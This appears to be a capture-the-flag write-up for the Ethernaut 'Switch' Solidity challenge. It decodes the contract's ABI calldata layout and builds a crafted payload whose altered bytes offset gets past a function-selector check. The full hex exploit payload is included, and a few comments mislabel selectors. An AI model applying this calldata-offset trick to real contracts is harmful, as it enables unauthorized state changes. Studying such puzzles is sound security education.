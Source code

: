 # Switch

- Bug class: `ABI encoding`

## Step I: Inspect the contract code

Let's get all the function selectors of the Switch contract
```bash
forge inspect instances/Ilevel29.sol:Switch methodIdentifiers
{
    "flipSwitch(bytes)": "30c13ade",
    "offSelector()": "5a2cfa66",
    "switchOn()": "f9f8f895",
    "turnSwitchOff()": "20606e15",
    "turnSwitchOn()": "76227e12"
}
```

## Step II: Inspect the legitimate payload
```js
console.logBytes(
    abi.encodeWithSignature(
        "flipSwitch(bytes)",
        abi.encodeWithSignature("turnSwitchOff()")
    )
);
```
*Please check [Solidity ABI Encoding Specs](https://docs.soliditylang.org/en/latest/abi-spec.html) for more details.*
```bash
(1) 0x30c13ade // 4 bytes function selector for flipSwitch(bytes)
(2) 0000000000000000000000000000000000000000000000000000000000000020 // 32 bytes offset to the first argument (bytes _data) of flipSwitch(bytes)
(3) 0000000000000000000000000000000000000000000000000000000000000004 // length of the first argument (bytes _data) of flipSwitch(bytes)
(4) 20606e1500000000000000000000000000000000000000000000000000000000 // data of the first argument (bytes _data) of flipSwitch(bytes) which is the function selector for turnSwitchOn()
```
We must keep the block (4) to pass the check `turnSwitchOff` signature check, but we will change the block (2) to point to our malicious payload.

## Step III: Craft the malicious payload
```
(1) 0x30c13ade // 4 bytes function selector for flipSwitch(bytes)
(2) 0000000000000000000000000000000000000000000000000000000000000060 // 32 bytes offset to the first argument (bytes _data) of flipSwitch(bytes)
(3) 0000000000000000000000000000000000000000000000000000000000000004 // do not load, could be anything
(4) 20606e1500000000000000000000000000000000000000000000000000000000 // keep this to pass the check
(5) 0000000000000000000000000000000000000000000000000000000000000004 // length of the first argument (bytes _data) of flipSwitch(bytes)
(6) 76227e1200000000000000000000000000000000000000000000000000000000 // payload: flipSwitchOn function selector
```
---
Final payload:
```
0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000420606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000
```